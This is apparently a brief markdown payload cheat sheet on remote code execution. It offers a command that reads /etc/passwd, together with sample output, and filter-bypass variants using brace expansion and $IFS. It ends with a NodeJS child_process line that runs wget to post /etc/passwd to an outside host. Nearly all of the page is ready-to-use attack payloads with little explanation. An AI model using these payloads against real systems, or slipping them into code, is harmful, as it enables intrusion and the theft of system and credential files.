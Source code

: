 # Remote Code Execution
Remote code execution is a security vulnerability that allows an attacker to execute codes from a remote server.
	

## Vuln
Normal code execution
```
cat /etc/passwd 
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh sys:x:3:3:sys:/dev:/bin/sh
```


Code execution without space
```
{cat,/etc/passwd}
cat$IFS/etc/passwd
```

NodeJS Code execution
```
require('child_process').exec('wget+--post-data+"x=$(cat+/etc/passwd)"+HOST')
```

## Thanks to
* 